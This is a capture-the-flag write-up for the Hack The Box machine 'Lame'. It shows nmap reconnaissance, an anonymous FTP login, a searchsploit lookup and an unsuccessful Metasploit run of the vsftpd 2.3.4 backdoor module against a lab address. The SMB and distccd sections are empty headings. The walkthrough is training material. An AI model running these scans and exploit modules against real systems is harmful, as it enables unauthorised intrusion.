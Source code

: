 # Lame by ch4p
![alt text](https://i.imgur.com/mLVb0NZ.png)

## Initial Recon
The initial nmap scan of the box shows that there are three services for us to investigate - ftp, ssh and smb
```sh
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## FTP
The ftp service on this box has anonymous login enabled which allows us to connect without authenticating
```sh
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```
Unfortunately there are no files on the ftp server for us to look at, we could try to see if there are any exploits for the version of vsftpd the service uses
```sh
root@kali:~# searchsploit vsftpd 2
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption              | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)              | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)              | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                            | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                      | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
We can try the [vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) exploit and see if it works
```sh
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
In this case, it doesn't.

## SSH
Without a username at least there isn't much we can do with SSH for now, we do have the version of OpenSSH it's using but there are no vulnerabilities we're able to exploit at this stage.

## SMB

## Exploiting SMB

## Alternate Route - distccd 
